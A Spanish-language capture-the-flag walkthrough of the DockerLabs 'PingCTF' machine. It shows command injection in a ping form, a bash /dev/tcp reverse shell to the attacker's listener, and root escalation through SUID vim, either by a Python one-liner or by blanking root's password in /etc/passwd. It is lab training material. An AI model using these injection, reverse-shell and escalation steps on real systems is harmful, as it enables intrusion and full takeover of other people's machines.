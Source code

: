 ## DESCARGA Y MONTAJE DE MÁQUINA VICTIMA

Nos dirigimos a la página:

![Nmap Scan](images/PingCTF/1.png)

```bash
https://dockerlabs.es/
```

y alli a al enlace de la máquina vulnerable llamada `PingCTF` del autor: `borazuwarah`:

```bash
https://mega.nz/file/jVdVyYYK#Cl7k02bD1IHF6_j1tljf497k4l7uPq2QxzJQvs1tqoY
```

![Nmap Scan](images/PingCTF/2.png)


movemos la descarga a la carpeta de trabajo con:

```bash
mv /ruta_a_mi_carpeta_de_trabajo
```
descargamos con un unzip el contenido comprimido con zip:

```bash
unzip PingCTF.zip
```

y ejecutamos este comando para subir la máquina vulnerable

```bash
sudo bash auto_deploy.sh ping_ctf.tar
```



![Nmap Scan](images/PingCTF/3.png)


Ya tenemos la direccón de la máquina vulnerable--->`172.17.0.2`



## FASE DE ENUMERACIÓN

Realizaremos un escaneo de los puertos que tiene abiertos la máquina vulnerable, y si los tiene, vamos a ver los servicios que corren en ellos y sus versiones:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```

![Nmap Scan](images/PingCTF/4.png)


Solamente esta abierto el puerto 80 donde corre http, sin más vamos a lanzar un whatweb por si nos reportara algo:


```bash
whatweb 172.17.0.2 | tee whatweb
```

![Nmap Scan](images/PingCTF/5.png)


Solamente sacamos en claro que coore un apache 2.4.58

Con todo esto nos vamos a la página web : `http://172.17.0.2`


## FASE INTRUSIÓN


Vemos un panel, con el cual podemos comprobar la conectividad con una ip, pruebo algunas y no da resultado, asi que pruebo a inyectar un comando con una ip seguida de punto y coma
y un comando:

```bash
127.0.0.1;id
```

![Nmap Scan](images/PingCTF/6.png)


Y parece que da resultado:

![Nmap Scan](images/PingCTF/7.png)

Vamos a crear una reverse shell y enviarla; en mi caso ejecuto este comando:

```bash
bash -c "bash -i >& /dev/tcp/<TU IP>/<PUERTO EN ESCUCHA> 0>&1"
```

podeis encontrar las reverse shell en:

```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
```

nos ponemos en nuestra máquina kali a la escucha por el puerto 445:

```bash
sudo nc -lvnp 445
```

e introducimos y ejecutamos en la página web:

```bash
127.0.0.1;bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```



## FASE ESCALADA PRIVILEGIOS

Y estamos dentro

![Nmap Scan](images/PingCTF/9.png)

Hacemos un tratamiento de la TTY:

```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```

Primero miramos los grupos a los que pertenecemos por si estamos en alguno privilegiado:

```bash
id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

No estamos en ningun grupo privilegiado

Ahora vamos a mirar si tenemos algún privilegio sudo:


```bash
sudo -l
```

```
bash: sudo: command not found
```

Tampoco.

Buscamos si hay algún SUID:

```bash
find / -perm -4000 2>/dev/null
```
```
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/vim.basic
```

Tenemos este: `/usr/bin/vim.basic`

comprobamos los permisos del binario:

```bash
ls -la /usr/bin/vim.basic
```
```
-rwsr-xr-x 1 root root 4126400 Apr  1 20:12 /usr/bin/vim.basic
```
efectivamente tenemos el bit SUID mostrado por la `s`

Nos vamos a la página:

```bash
https://gtfobins.github.io/
```
e introducimos `vim` en el buscador y nos vamos a la pestaá SUID:

```bash
https://gtfobins.github.io/gtfobins/vim/#suid
```

presto atención a esta parte:

```
This requires that vim is compiled with Python support. Prepend :py3 for Python 3.
```

compruebo en la máquina victima que python tiene:

```
www-data@141fbbd9ad91:/var/www/html$ which python
www-data@141fbbd9ad91:/var/www/html$ which python3
/usr/bin/python3
```
disponemos de python3, vamos a ejecutar lo que nos dice gtfobins adecuado a nuestro binario quedando así:

```bash 
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

cuando termine de salir todo presionamos enter y ya somos root

```bash
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# 
```

hay otra forma de hacerlo, que es abriendo un archivo y sobreescribirlo, por ejemplo:

```bash
/usr/bin/vim.basic /etc/passwd
```

![Nmap Scan](images/PingCTF/11.png)


cuando nos abre el archivo concretamente nos vamos a esta linea:
```
root:x:0:0:root:/root:/bin/bash
```

y quitamos la `x` para así hacer que la contraseña de root no apunte al /etc/shadow y entre sin contraseña, quedando así:

```
root::0:0:root:/root:/bin/bash
```

para hacerlo ponemos el cursos sobre la letra `x` y damos a la tecla `x` de nuestro teclado y eliminará la letra quedando así:

![Nmap Scan](images/PingCTF/10.png)


Ahora tenemos que forzar el guardado del archivo y esto lo hacemos

```
:w!
```
![Nmap Scan](images/PingCTF/12.png)

en la parte de abajo nos aparecerá

```
"/etc/passwd" 19L, 887B written
```
que nos indica que ha sido modificado y salimos de vim:

```bash
:q
```

comprobamos si ha guardado bien los cambios:


```bash
cat /etc/passwd
```
```
root::0:0:root:/root:/bin/bash  <-------------- se ha guardado el cambio
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

ahora vamos a cambiar al usuario root que no tiene contraseña:

```bash
su root
```
```
root@141fbbd9ad91:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

```

Y hasta aquí esta máquina.
